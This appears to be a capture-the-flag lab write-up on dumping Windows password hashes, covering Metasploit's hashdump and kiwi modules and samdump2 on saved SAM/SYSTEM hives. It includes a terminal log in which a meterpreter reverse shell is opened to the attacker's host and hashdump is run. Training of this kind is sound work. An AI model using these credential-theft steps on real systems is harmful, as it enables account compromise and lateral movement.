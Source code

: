 1. Read the above

`No answer needed`

## Task 4 [EXTRA] Hash dumping

**What is hash dumping?**

Hash dumping is the technique used by penetration testers to extract the password hashes off of the target system to either crack them or to try to do lateral movement.
The simplest way to do hash dumping is by using Metasploit's hashdump/kiwi module:

![](https://i.imgur.com/y0TdRu7.png)

The same result can be achieved by saving the SAM and SYSTEM registries, downloading the files and using samdump2.
Let's save first the registries on the target machine:

![](https://i.imgur.com/CQc638I.png)

With the registries saved download the files to the attacker machine and use samdump2 to recover the hashes.

![](https://i.imgur.com/KzxBXqG.png)

It seems some users do not appear, only their hashes. However, for that issue, you can query for users that are on the system.

You can dump credentials using kiwi, which is the equivalent of mimikatz. To do that you'll need to load the module: `load kiwi`.
The command used to dump the SAM database hashes is: `lsa_dump_sam`

![](https://i.imgur.com/mwQkA5z.png)

There are more ways of dumping hashes and multiple tools and scripts that can be used for this purpose.

Note: If planning to use the offline cracking method the passwords are contained in the following wordlist from seclists: 100k-most-used-passwords-NCSC.txt (/usr/share/seclists/Passwords/Common-Credentials). In case you do not have seclists installed you can do it by usingthe following command: `sudo apt-get install seclists` .

```
kali@kali:~/CTFs/tryhackme/Persistence$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(multi/handler) > set LPORT 9002
LPORT => 9002
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:9002
[*] Sending stage (176195 bytes) to 10.10.98.70
[*] Meterpreter session 1 opened (10.8.106.222:9002 -> 10.10.98.70:50074) at 2020-10-30 22:27:27 +0100

meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 31066436b67d1dfb03c9f249b9aed099...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...
```